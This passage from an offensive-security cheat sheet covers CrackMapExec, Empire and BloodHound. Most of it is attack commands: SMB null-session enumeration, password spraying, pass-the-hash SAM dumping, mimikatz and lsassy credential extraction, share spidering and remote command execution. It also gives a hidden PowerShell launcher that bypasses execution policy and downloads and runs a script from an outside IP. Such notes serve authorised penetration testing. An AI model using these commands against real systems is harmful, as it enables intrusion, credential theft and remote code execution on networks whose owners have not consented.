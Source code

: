 Use:

```
$ cme smb 127.0.0.1
$ cme smb 127.0.0.1 -u anonymous -p '' 2>/dev/null
$ cme smb 127.0.0.1 -u anonymous -p '' --shares
$ cme smb 127.0.0.1 -u '' -p '' -d WORKGROUP --shares
$ cme smb 127.0.0.1 -u nullinux_users.txt -p passwords.txt --shares [--no-bruteforce] [--continue-on-success]
$ cme smb 127.0.0.1 -u snovvcrash -p 'Passw0rd!' --spider-folder 'E\$' --pattern s3cret
$ cme smb 127.0.0.1 -u j.doe -p 'Passw0rd!' -d 'CORP' --spider Users --pattern '.'
$ cme smb 127.0.0.1 -u Administrator -H fc525c9683e8fe067095ba2ddc971889 --local-auth --sam
$ cme smb 127.0.0.1 -u snovvcrash -p '' -M spider_plus
$ cme smb 127.0.0.1 -u snovvcrash -p '' -M mimikatz
$ cme smb 127.0.0.1 -u snovvcrash -p '' -M lsassy
$ cme smb 127.0.0.1 -u snovvcrash -p '' -x 'powershell gci \users\administrator -recurse -file -ea SilentlyContinue | select fullname'
```



### Empire

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

Install:

```
$ git clone https://github.com/BC-SECURITY/Empire ~/tools/Empire && cd ~/tools/Empire
$ sudo STAGING_KEY=`echo 'H4ckTh3Pl4net!' | md5sum | cut -d' ' -f1` ./setup/install.sh
$ sudo poetry install
$ echo $'#!/usr/bin/env bash\n\nsudo poetry run python empire' > ~/tools/Empire/run_empire.sh
$ chmod +x ~/tools/Empire/run_empire.sh
```

Pwsh launcher string:

```
PS > powershell -NoP -sta -NonI -W Hidden -Exec Bypass -C "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/launcher.ps1')"
```



### Bloodhound


#### Setup

```
$ sudo apt install neo4j
$ sudo mkdir -p /usr/share/neo4j/logs/
$ sudo neo4j console
...change default password at localhost:7474...
$ sudo neo4j start
$ wget https://github.com/BloodHoundAD/BloodHound/releases/latest
$ unzip BloodHound-linux-x64.zip && rm BloodHound-linux-x64.zip && cd BloodHound-linux-x64
$ sudo ./BloodHound --no-sandbox
Or
$ sudo chown root:root chrome-sandbox
$ sudo chmod 4755 chrome-sandbox
$ ./BloodHound
```
